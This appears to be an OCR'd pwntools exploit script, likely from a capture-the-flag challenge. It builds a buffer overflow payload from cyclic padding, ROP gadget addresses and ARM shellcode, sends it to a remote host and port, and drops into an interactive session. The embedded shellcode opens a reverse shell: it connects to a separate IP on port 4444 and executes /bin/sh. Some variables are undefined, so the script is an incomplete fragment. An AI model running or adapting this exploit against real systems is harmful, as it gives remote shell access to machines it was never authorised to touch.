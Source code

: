 ```

pop_r3_r11 = 0x0003BD60



p = remote("20.21.2.27", 59816)

p.send(data)

sleep(0.1)

pause()

fd_n = 6

shellcode = "\x02\x00\xa0\xe3\x01\x10\xa0\xe3\x02\x20\x42\xe0\xc8\x70\xa0\xe3\x51\x70\x87\xe2\x00\x00\x00\xef\x00\x40\xa0\xe1\x64\x10\x8f\xe2\x01\x20\xc1\xe5\x10\x20\xa0\xe3\x02\x70\x87\xe2\x00\x00\x00\xef\x3f\x70\xa0\xe3\x04\x00\xa0\xe1\x01\x10\x41\xe0\x00\x00\x00\xef\x04\x00\xa0\xe1\x01\x10\xa0\xe3\x00\x00\x00\xef\x04\x00\xa0\xe1\x02\x10\xa0\xe3\x00\x00\x00\xef\x30\x00\x8f\xe2\x02\x20\x42\xe0\x00\x10\xa0\xe1\x05\x10\x81\xe2\x00\x60\xa0\xe1\x80\x60\x86\xe2\x00\x10\x86\xe5\x04\x20\x86\xe5\x06\x10\xa0\xe1\x07\x20\xc0\xe5\x0b\x70\xa0\xe3\x00\x00\x00\xef\x02\xff\x11\x5c\x14\x15\x02\x1a\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = "U" * 1034
payload = cyclic(834)
payload += shellcode
payload += "K" * (1034 - len(payload))
payload += "BBBB"
# payload += p32(pop_r7)
# payload += p32(0x7d) # mprotect

payload += p32(0x8acfc)
payload += p32(0x08ACE4) # socket

payload += p32(pop_r1)
payload += p32(0)

payload += p32(svc_pop_r4_r8)
payload += p32(0x11223344) * 4



# payload += shellcode


payload += "K" * (0x500 - 60 - len(payload) - 3)
payload += "\n\x00\x00"

p.send("C" * 59 + "\n\x00" + payload)
sleep(0.1)

pause()

p.send("\n\x00" + cyclic(0x400 - 2))
sleep(0.1)


p.interactive()
```
